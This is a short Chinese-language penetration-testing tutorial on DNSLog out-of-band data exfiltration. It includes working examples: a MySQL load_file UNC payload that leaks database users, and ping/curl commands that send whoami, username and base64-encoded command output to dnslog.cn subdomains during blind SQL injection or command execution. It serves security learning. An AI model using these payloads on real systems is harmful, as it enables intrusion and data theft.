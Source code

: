 # DNSLog

参考：

https://www.cnblogs.com/Xy--1/p/12896599.html

DNSLog就是存储在DNS服务器上的域名信息。只要向DNS服务发起请求就会将域名和对应的IP记录成一条DNSLog。

例如：我么在DNSLog.cn上获取一个三级域名，当我们访问这个三级域名就会在生成一条DNSLog。访问子域名同样会产生一条DNSLog

```
C:\Users\82341>ping ejsgno.dnslog.cn

正在 Ping 82341.ejsgno.dnslog.cn [127.0.0.1] 具有 32 字节的数据:
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=64
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=64
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=64

C:\Users\82341>ping %USERNAME%.ejsgno.dnslog.cn

正在 Ping 82341.ejsgno.dnslog.cn [127.0.0.1] 具有 32 字节的数据:
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=64
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=64
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=64
```

有如下几个平台提供免费的DNSLog服务

- [http://www.dnslog.cn](http://www.dnslog.cn/)
- [http://admin.dnslog.link](http://admin.dnslog.link/)
- [http://ceye.io](http://ceye.io/)

> 在渗透测试中，经常会遇到如下场景：
>
> 1. sql注入不能回显
> 2. blind类型的ssrf以及xxe漏洞
> 3. ==无回显的命令执行漏洞==
>
> 这时候就可以使用DNSLog

## 命令回显

```
root in ~ λ curl whoami.41v1us.dnslog.cn
```

## SQL 盲注 回显

`load_file()`函数可以获取本地文件，==但是在windows上可以通过UNC路径访问网络上的文件。==

```
mysql> select load_file(concat('\\\\',(select user from mysql.user limit 1),'.y3esmy.dnslog.cn\\a'));
```

这里`\\\\`是被转义的`\\`，且必须根上具体访问的文件。

这样我们就可以在dnslog.cn上看到。

## 编码

有些特殊的字符可能无法拼接到域名然后访问，我们可以先对想要获取的数据base64后然后发送请求

```
root in ~ λ a=$(pwd|base64).41v1us.dnslog.cn
root in ~ λ echo $a
L3Jvb3QK.41v1us.dnslog.cn
```

如果base64生成后有`=`需要使用`cut`

```
root in ~ λ a=$(whoami|base64|cut -d = -f 1).41v1us.dnslog.cn
root in ~ λ echo $a
cm9vdAo.41v1us.dnslog.cn
```

## 无回显漏洞执行或盲打

如果命令执行失败不会访问DNSLog，所以可以通过这种方法进行盲打。

```
curl $(openssl rand -hex 10).3qnd0y.dnslog.cn
```





